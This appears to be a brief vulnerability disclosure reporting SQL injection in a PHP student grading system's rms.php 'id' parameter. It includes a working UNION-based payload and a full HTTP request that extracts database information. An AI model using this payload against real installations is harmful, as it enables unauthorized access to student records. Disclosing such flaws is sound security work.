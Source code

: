 ## Student-grading-system v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/14522/student-grading-system-using-phpmysql-source-code.html

Vulnerability File: /student-grading-system/rms.php?page=student_p&id=

Vulnerability location: /student-grading-system/rms.php?page=student_p&id=,id

[+] Pyaload: id=1%27%20UNION%20ALL%20SELECT%201,2,3,4,5,6,7,8,9,database(),11,12,13,14,15,16,CONCAT(0x716a767a71,0x4363574d72716c57514d6f6e626241676a5469757266544a466d704755435841746863464d445244,0x716a787a71),18,19--+-

```sql
GET /student-grading-system/rms.php?page=student_p&id=1%27%20UNION%20ALL%20SELECT%201,2,3,4,5,6,7,8,9,database(),11,12,13,14,15,16,CONCAT(0x716a767a71,0x4363574d72716c57514d6f6e626241676a5469757266544a466d704755435841746863464d445244,0x716a787a71),18,19--+- HTTP/1.1
Host: 192.168.1.19
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=j0d3j11j73v4lm3m8d74g5d3gu
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/160226119-fe498314-f95e-4dcc-8e04-fcd4503fb338.png)

